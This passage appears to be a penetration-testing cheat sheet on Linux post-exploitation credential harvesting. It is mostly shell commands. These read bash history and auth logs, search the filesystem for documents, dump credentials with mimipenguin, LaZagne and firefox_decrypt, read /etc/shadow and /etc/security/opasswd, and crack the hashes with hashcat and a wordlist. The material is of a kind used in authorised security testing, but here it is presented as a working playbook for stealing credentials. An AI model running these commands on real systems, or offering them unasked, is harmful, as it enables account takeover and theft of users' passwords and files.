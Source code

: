 ```shell

# Bash history
tail -n5 /home/*/.bash*

# Look for logs in /var/log
cd /var/log; ls -al

for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done

# Hunting for protected files
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

# Memory and cache
sudo python3 mimipenguin.py
sudo python2.7 laZagne.py all
python3 laZagne.py browsers

# Credentials in firefox
ls -l .mozilla/firefox/ | grep default 
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
python3.9 firefox_decrypt.py
```

### Reading important files

- Reading important credential files in linux:

```shell
# Shadow file
sudo cat /etc/shadow

# Opasswd file for old passwords
sudo cat /etc/security/opasswd
```

- Cracking credentials in shadow file

```shell
# Create copies of files
sudo cp /etc/passwd /tmp/passwd.bak 
sudo cp /etc/shadow /tmp/shadow.bak 

# Unshadow the shadow file
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes

# Crack the hashes
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```